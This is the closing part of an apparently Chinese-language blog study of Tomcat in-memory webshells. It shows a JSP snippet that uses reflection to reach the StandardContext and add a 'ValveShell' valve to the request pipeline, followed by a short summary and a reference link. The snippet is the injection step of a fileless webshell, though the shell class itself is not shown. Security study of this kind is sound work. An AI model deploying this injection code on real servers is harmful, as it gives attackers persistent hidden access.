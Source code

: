 ```plain
<%
    ServletContext serverContext = request.getSession().getServletContext();
    Field applicationContextField = serverContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(serverContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    ValveShell myValveShell = new ValveShell();
    standardContext.getPipeline().addValve(myValveShell);

%>
```

## 9\. 总结

本文对涉及的代码进行了逐行阅读，重要部分也加上了注释。由于篇幅原因，Valve部分没有详细描述，原理相似。在学习内存马之前没有深入理解过Tomcat底层的原理，包括脚本启动、初始化类加载器、解析文件、启动组件等，这些前置知识很重要，详细后续再更新..

## 10\. 参考

[JavaWeb 内存马一周目通关攻略](https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC)
